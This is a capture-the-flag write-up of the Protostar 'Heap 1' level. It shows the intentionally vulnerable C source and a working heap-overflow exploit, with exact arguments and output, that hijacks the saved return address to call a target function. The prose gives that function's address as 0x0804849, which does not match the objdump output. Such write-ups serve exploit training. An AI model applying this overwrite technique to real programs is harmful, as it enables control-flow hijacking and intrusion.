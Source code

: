 # Protostar - Heap 1

### About ###

>This level takes a look at code flow hijacking in data overwrite cases.
>
>This level is at /opt/protostar/bin/heap1


### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

  

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

### Solution 

The objective of this challenge is to call the function `winner` located at the address `0x0804849`

```
user@protostar:/tmp$ objdump -t /opt/protostar/bin/heap1 | grep winner
08048494 g     F .text 	00000025              winner
```

To achieve that, we are going to use the first call to `strcpy` to change the address stored in `i2->name` by the address of the saved `eip`. It will allow us to change its value with the second call to `strcpy` and replace it by the address of the function `winner`.

Our exploit will look like this:

 - `argv[1]`
  - `AAAAAAAA`: to fill up `i1->name`
  - `BBBBBBBB`: to overwrite the metadata of the chunk `i2`
  - `CCCC`: to overwrite `i2->priority`
  - `@saved eip`: to overwrite the address in `i2->name`
 - `argv[2]`
  - `@winner`: to replace the value of the saved `eip`
 
```
user@protostar:/tmp$ heap1 $(python -c "print 'A'*8 + 'B'*8 + 'C'*4 + '\x9c\xf6\xff\xbf'") $(python -c "print '\x94\x84\x04\x08'*2")
and that's a wrap folks!
and we have a winner @ 1473117910
and we have a winner @ 1473117910
``